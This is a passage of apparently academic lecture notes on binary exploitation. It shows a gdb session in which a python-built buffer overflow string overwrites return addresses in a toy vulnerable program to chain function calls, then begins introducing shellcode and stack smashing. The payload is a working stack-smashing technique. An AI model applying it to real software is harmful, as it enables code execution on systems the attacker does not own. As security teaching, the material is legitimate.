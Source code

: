 And finally, we can go a bit nuts and have multiple calls to good() and
bad():

``` {.example}
(gdb) run 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\x56\x85\x04\x08'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/1.2/vulnerable 66 `python -c "print 'A'*48+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\xc1\x84\x04\x08'+'\xad\x84\x04\x08'+'\x56\x85\x04\x08'"`

Breakpoint 8, vuln (n=134513837, str=0x80484c1 <good> "U\211\345\203\354\030\307\004$\005\206\004\b\350\235\376\377\377\311\303U\211\345\203\354H\307", <incomplete sequence \364>)
    at vulnerable.c:21
21   while( i < n ){
(gdb) c
Continuing.
Go Navy!
You've been naughty!
Go Navy!
You've been naughty!

Program received signal SIGSEGV, Segmentation fault.
0x08048556 in main (argc=<error reading variable: Cannot access memory at address 0x41414149>, argv=<error reading variable: Cannot access memory at address 0x4141414d>) at vulnerable.c:33
33 }
```

At this point, you should feel like the master of your computer. It's
good to give a good hardy laugh: "Bwahaha!"

Shell Code and System Calls in x86
==================================

What is "shell code"?
---------------------

The term shellcode refers to a small bit of binary code that can launch
a shell (e.g., like a bash shell). Once you have a shell on a system,
then you can do a lot of good (or bad).

Shell code fits into the stack smashing from the last class in that it
is the code we wish to execute once the return address is overwritten.
Like before, our exploit string will overrun a buffer and rewrite the
return address, but instead of jumping to some function, we'll jump back
into the data we overrun the buffer with. That data should be the shell
code.

However, before we can do all of that, we first need to better
understand shell code, what is good vs. bad shell code, and how to use
it. Good shell code is compact and contains no NULL bytes. In later
lessons, we will write our own shell code; today, we'll use a very
standard example of shell code. *This example was based on a post* *from
a blog called Security Bits that seems to have disappeared into the
Internet, here is the [Internet
Archive](https://web.archive.org/web/20120710010645/http://badishi.com/basic-shellcode-example)
of the original article.*
